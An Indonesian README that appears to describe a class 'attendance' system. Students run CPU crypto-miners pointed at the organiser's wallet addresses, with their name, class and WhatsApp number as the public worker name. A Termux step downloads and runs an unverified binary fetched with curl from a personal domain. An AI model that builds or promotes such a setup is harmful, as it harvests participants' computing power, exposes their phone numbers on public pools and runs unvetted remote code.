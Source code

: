 # Presensi Web3 BlockChain

Disclaimer : Presensi ini adalah bagian dari [CrowdFunding Insentif](https://insent.if.co.id/), memakai sistem ini berarti sudah memahami syarat dan ketentuan CrowdFunding Insentif.

Untuk menjalankan presensi maka tata cara yang dilakukan:
1. Tentukan dahulu coin dan pool yang akan dipakai untuk presensi
2. Unduh dulu toolsnya sesuai dengan coin yang ditentukan
3. Lakukan edit atau buat baru salah satu file bat yang disana misal edit file run.bat ganti isinya dengan script dari coin masing-masing:
   Pastikan pada bagian NAMA_KELAS_WA diisi dengan nama, kelas dan nomor whatsapp kaka misal : UDIN_3B_62876878797 sehingga isi file bat menjadi
   Simpan dan tutup file tersebut, untuk selanjutnya kita eksekusi.
4. Jalankan file bat run.bat kemudian akan keluar cmd layar hitam yang berjalan.
5. Perhatikan apakah ada yang keluar Accepted warna hijau, jika ya maka presensi berjalan normal
6. Untuk melihat kehadiran bisa dilihat di pool masing masing coin yang disepakati

## Coin dan Pool
Pilihan coin dan pool untuk presensi

### 1. Kylacoin dan Lyncoin

[FlexLabs Tools](https://github.com/f1exlabs/cpuminer/releases)

Script
```sh
cpuminer-avx -a flex -o stratum+ssl://asia.mpool.live:5213 -u KCN=kc1q5ed6nnk2jvxdltefwq8tjlvne85tnp506ugj7z.NAMA_KELAS_WA,LCN=lc1q8wcgexr6gzhxu3pmkecxtyj2htd5jaxmu3mpx3.NAMA_KELAS_WA
pause
```
cpuminer-avx disesuaikan lagi dengan arsitektur CPU masing-masing dengan aplikasi CPU-Z, pilihannya:
* cpuminer-aes-sse42
* cpuminer-avx
* cpuminer-avx2-aes-sha
* cpuminer-avx2-aes
* cpuminer-avx2-sha-vaes
* cpuminer-avx512-sha-vaes
* cpuminer-avx512
* cpuminer-sse2

Lihat kehadiran di Pool [KCN](https://mpool.live/coin/KCN)  
Register Wallet `kc1q5ed6nnk2jvxdltefwq8tjlvne85tnp506ugj7z`

Lihat kehadiran di Pool [LCN](https://mpool.live/coin/LCN)  
Register Wallet `lc1q8wcgexr6gzhxu3pmkecxtyj2htd5jaxmu3mpx3`

### 2. Microbitcoin

[SugarMaker Tools](https://github.com/decryp2kanon/sugarmaker/releases)

Script
```bat
sugarmaker -a YespowerMbc -o stratum+tcp://power2b.sea.mine.zpool.ca:6242 -u mbc1qye84fl6cwuexy0nkje7yvmkp379gntuu8u33te -p id=NAMA_KELAS_WA,c=MBC,zap=MBC
```

Lihat kehadiran di Pool [MBC](https://zpool.ca/wallet/mbc1qye84fl6cwuexy0nkje7yvmkp379gntuu8u33te)  

### 3. SugarChain

[SugarMaker Tools](https://github.com/decryp2kanon/sugarmaker/releases)

Script
```bat
sugarmaker -a YespowerSugar -o stratum+tcp://nomp.mofumofu.me:3391 -u sugar1qkyetyz6uypmuqaxd8hs763ymv40uk4negh30yt.NAMA_KELAS_WA
```

Lihat kehadiran di Pool [SUGAR](https://nomp.mofumofu.me/workers/sugar1qkyetyz6uypmuqaxd8hs763ymv40uk4negh30yt)  

### 3. Bellcoin

[SugarMaker Tools](https://github.com/decryp2kanon/sugarmaker/releases)

Script
```bat
sugarmaker -a YespowerNull -o stratum+tcp://nomp.mofumofu.me:3351 -u bbomXCDrC8NRCczeF7JNQLrHtbWmtTU1V6.NAMA_KELAS_WA
```

Lihat kehadiran di Pool [BELL](https://nomp.mofumofu.me/workers/bbomXCDrC8NRCczeF7JNQLrHtbWmtTU1V6)  

### 4. PRiVCY

[SugarMaker Tools](https://github.com/decryp2kanon/sugarmaker/releases)

Script
```bat
sugarmaker -a YespowerNull -o stratum+tcp://yespower.sea.mine.zpool.ca:6234 -u PJojGEpkqoFhXumtTRVA7ixMsBXWKLL2YM -p id=NAMA_KELAS_WA,c=PRIV,zap=PRIV
```

Lihat kehadiran di Pool [PRIV](https://zpool.ca/wallet/PJojGEpkqoFhXumtTRVA7ixMsBXWKLL2YM)  

### 5. UnifyRoom

[JayDDee](https://github.com/JayDDee/cpuminer-opt/releases)

Script
```bat
cpuminer-avx -a yescryptr32 -o stratum+tcp://yescryptR32.sea.mine.zpool.ca:6343 -u UYSFu7mQJjxCbPRMqCm7op3n9b3uQdrPsX -p id=NAMA_KELAS_WA,c=UNFY,zap=UNFY
pause
```
cpuminer-avx disesuaikan lagi dengan arsitektur CPU masing-masing dengan aplikasi CPU-Z, pilihannya:
* cpuminer-aes-sse42
* cpuminer-avx
* cpuminer-avx2-aes-sha
* cpuminer-avx2-aes
* cpuminer-avx2-sha-vaes
* cpuminer-avx512-sha-vaes
* cpuminer-avx512
* cpuminer-sse2

Lihat kehadiran di Pool [UNFY](https://zpool.ca/wallet/UYSFu7mQJjxCbPRMqCm7op3n9b3uQdrPsX)  

### 6. LightningCash-R (LNCR)

[JayDDee](https://github.com/JayDDee/cpuminer-opt/releases)

Script Desktop
```sh
cpuminer-avx --algo yespower --param-n 2048 --param-r 32 --param-key "LTNCGYES" -o stratum+tcp://pool.lightningcash-reborn.space:6666 -u MPbZT1bsLSV9rovr85euNkuuqct2oX6kup.NAMA_KELAS_WA
pause
```
cpuminer-avx disesuaikan lagi dengan arsitektur CPU masing-masing dengan aplikasi CPU-Z, pilihannya:
* cpuminer-aes-sse42
* cpuminer-avx
* cpuminer-avx2-aes-sha
* cpuminer-avx2-aes
* cpuminer-avx2-sha-vaes
* cpuminer-avx512-sha-vaes
* cpuminer-avx512
* cpuminer-sse2

Script Termux : download
```sh
curl -O https://cek.in.my.id/cpuminer
```
Script Termux : running
```sh
./cpuminer --algo yespower --param-n 2048 --param-r 32 --param-key "LTNCGYES" -o stratum+tcp://pool.lightningcash-reborn.space:6666 -u MPbZT1bsLSV9rovr85euNkuuqct2oX6kup.NAMA_KELAS_WA
```

Lihat kehadiran di Pool [LNCR](https://pool.lightningcash-reborn.space/workers/MPbZT1bsLSV9rovr85euNkuuqct2oX6kup)  
